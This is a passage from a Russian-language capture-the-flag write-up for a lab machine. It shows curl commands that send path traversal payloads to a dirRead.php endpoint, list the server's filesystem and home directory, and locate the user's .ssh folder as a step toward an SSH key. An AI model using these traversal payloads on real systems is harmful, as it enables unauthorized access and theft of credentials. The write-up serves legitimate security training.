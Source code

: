 IT'S ALIVE :smiling_imp:

Пойдем дальше и исследуем домашнюю директорию пользователя, отыскав в ней SSH-ключ:
```text
root@kali:~# curl -s -X POST -d "path=....//....//....//" http://10.10.10.87/dirRead.php | jq
[
  ".",
  "..",
  ".dockerenv",
  "bin",
  "dev",
  "etc",
  "home",
  "lib",
  "media",
  "mnt",
  "proc",
  "root",
  "run",
  "sbin",
  "srv",
  "sys",
  "tmp",
  "usr",
  "var"
]
root@kali:~# curl -s -X POST -d "path=....//....//....//home" http://10.10.10.87/dirRead.php | jq
[
  ".",
  "..",
  "nobody"
]
root@kali:~# curl -s -X POST -d "path=....//....//....//home/nobody" http://10.10.10.87/dirRead.php | jq
[
  ".",
  "..",
  ".ash_history",
  ".ssh",
  ".viminfo",
  "user.txt"
]
root@kali:~# curl -s -X POST -d "path=....//....//....//home/nobody/.ssh" http://10.10.10.87/dirRead.php | jq
[
  ".",
  "..",
  ".monitor",
  "authorized_keys",
  "known_hosts"
]
```
